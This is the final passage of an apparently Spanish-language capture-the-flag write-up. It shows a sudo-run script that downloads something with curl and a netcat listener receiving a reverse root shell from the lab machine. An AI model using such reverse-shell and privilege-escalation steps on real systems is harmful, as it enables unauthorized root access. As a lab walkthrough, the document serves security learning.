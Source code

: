 Ejecuto el script.

```
purple@color:~$ sudo /home/purple/ddos.sh
sudo /home/purple/ddos.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    34  100    34    0     0   1789      0 --:--:-- --:--:-- --:--:--  1789
```

```
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.86] from (UNKNOWN) [192.168.1.89] 58892
whoami
root
:)
```

Y con esto la máquina ya estaría resuelta.

## Fin

Esta es la primera máquina que hago, espero que os haya gustado. :)

